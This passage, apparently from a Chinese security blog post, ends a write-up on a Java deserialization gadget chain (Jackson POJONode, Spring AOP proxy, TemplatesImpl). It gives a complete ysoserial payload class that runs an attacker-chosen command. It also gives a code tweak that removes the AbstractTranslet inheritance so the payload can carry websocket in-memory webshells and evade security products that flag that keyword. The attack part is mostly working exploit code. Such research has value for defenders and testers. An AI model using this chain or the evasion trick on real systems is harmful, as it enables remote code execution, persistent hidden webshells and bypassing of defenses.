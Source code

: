 在ysoserial中也提供了一个代理封装的方法：`Gadgets#createProxy`，下面给出利用ysoserial构造后的完整代码：

```java
public class test implements ObjectPayload<Object> {
    public Object getObject(String command) throws Exception {
        final TemplatesImpl templatesImpl = Gadgets.createTemplatesImpl(command,TemplatesImpl.class, AbstractTranslet.class, TransformerFactoryImpl.class);
        AdvisedSupport as = new AdvisedSupport();
        as.setTarget(templatesImpl);
        final Object proxyObj = Gadgets.createProxy(
            (InvocationHandler) Reflections.getFirstCtor("org.springframework.aop.framework.JdkDynamicAopProxy").newInstance(as),Templates.class);
        POJONode jsonNodes = new POJONode(proxyObj);
        BadAttributeValueExpException exp = new BadAttributeValueExpException(1);
        Field val = exp.getClass().getDeclaredField("val");
        val.setAccessible(true);
        val.set(exp,jsonNodes);
        return exp;
    }

    public static void main(final String[] args) throws Exception {
        PayloadRunner.run(Jackson1.class, args);
    }
}
```

0x04 结尾
-------

此次过程中还发现了一个Tips，具体分析可参考：<https://ispacesoft.com/161752.html>

问题：ysoserial中使用了Javassist来构建templates的\_bytecodes属性时，需要继承AbstractTranslet类才能利用，移除继承后无法利用。

1. 在websocket内存马中，变成了抽象类`javax.xml.ws.Endpoint`，但是由于java不允许多继承，继承了AbstractTranslet类后，就无法再继承Endpoint类了；
2. 部分安全产品对AbstractTranslet关键字也有检测。

解决：满足两个条件即可实现去除继承AbstractTranslet类：

1. 参数 `classCount` 数量大于1，即生成类的数量大于1；
2. 参数 `_transletIndex` 大于等于0，该属性为指定为恶意类的索引，默认为-1。

```java
//原写法
Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {classBytes});
//修改后
Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {
classBytes, ClassFiles.classAsBytes(Foo.class)
});
//添加_transletIndex字段
Reflections.setFieldValue(templates, "_transletIndex", 0);
Reflections.setFieldValue(templates, "_name", "Pwnr");
Reflections.setFieldValue(templates, "_tfactory", transFactory.newInstance());
```